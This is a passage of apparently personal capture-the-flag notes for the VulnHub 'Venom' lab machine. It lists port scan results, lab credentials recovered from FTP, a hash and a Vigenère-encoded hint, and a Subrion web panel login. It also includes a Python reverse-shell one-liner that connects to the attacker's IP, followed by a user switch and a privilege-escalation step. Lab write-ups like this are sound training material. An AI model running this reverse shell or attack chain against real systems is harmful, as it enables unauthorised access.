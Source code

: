 https://www.vulnhub.com/entry/venom-1,701/


---

**S1REN's Template Reference**

\[OS]: Unix
\[Web-Technology]: 
\[Hostname]:  
\[IP]:  192.168.100.4
\[USERS]:   
\[CREDENTIALS]:  hostinger

FTP: hostinger: hostinger
http://venom.box/panel/ - dora: E7r9t8@Q#h%Hy+M1234
nathan :: FzN+f2-rRaBgvALzj*Rk#_JJYfg8XfKhxqB82x_a

---
\[To-Try LIST]:  
21:  ftp        vsftpd 3.0.3
![[Pasted image 20250819033712.png]]
![[Pasted image 20250819033823.png]]
└─$ cat hint.txt         
	Hey there... 

T0D0 --

You need to follow the 'hostinger' on 

WXpOU2FHSnRVbWhqYlZGblpHMXNibHBYTld4amJWVm5XVEpzZDJGSFZuaz0=  -> standard vigienere cipher

aHR0cHM6Ly9jcnlwdGlpLmNvbS9waXBlcy92aWdlbmVyZS1jaXBoZXI= -> https://cryptii.com/pipes/vigenere-cipher


some knowledge of cipher is required to decode the **dora** password..
try on 
password -- L7f9l8@J#p%Ue+Q1234 -> deocode this you will get the **administrator** password 


admin :: dora
encrypted :: L7f9l8@J#p%Ue+Q1234
key :: hostinger
decrypted :: E7r9t8@Q#h%Hy+M1234
to try on: venom.box 


venom.box -> add to hosts -> webpage -> Powered by Subrion 4.2

![[Pasted image 20250819041003.png]]

rev shell:
`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.100.5",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/bash","-i"])'`

![[Pasted image 20250819042218.png]]

![[Pasted image 20250819043031.png]]

history:
 cat  /var/www/html/subrion/backup/.htaccess -> FzN+f2-rRaBgvALzj*Rk#_JJYfg8XfKhxqB82x_a

su: nathan
![[Pasted image 20250819043355.png]]

![[Pasted image 20250819043428.png]]

GTFO BIN:
![[Pasted image 20250819043531.png]]
![[Pasted image 20250819043551.png]]

![[Pasted image 20250819043640.png]]

80: Apache httpd 2.4.29 ((Ubuntu)) 
443: Apache httpd 2.4.29




---
\[NMAP RESULTS]:  

PORT     STATE  SERVICE    VERSION
21/tcp   open   ftp        vsftpd 3.0.3
22/tcp   closed ssh
80/tcp   open   http       Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
443/tcp  open   http       Apache httpd 2.4.29
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
7070/tcp closed realserver
8084/tcp closed websnp

\[Web Services Enumeration]:   

**80 and 443:**  http://192.168.100.4:80,http://192.168.100.4:443
Apache httpd 2.4.29: https://www.exploit-db.com/exploits/744
https://launchpad.net/bugs/1288690 -> CVE 2016-4979
Page Source: 5f2a66f947fa5690c26506f66bde5c23 -> Crackstation -> hostinger
Gobuster - /server-status





========================================================================= \[OTHER / PRIVILEGE-ESCALATION]:   ========================================================================= \Take Away Concepts: *  *  *

    
    HOTKEYS! Background: Black Foreground (important elements): Red Background-Color: Select Text > Shift + Alt + B + ENTER Foreground Color: Select Text > Shift + Alt + F + ENTER Move quickly with: Function key + left and right arrows Cntrl + left and right arrows Cntrl + Shift (select text) (edited)

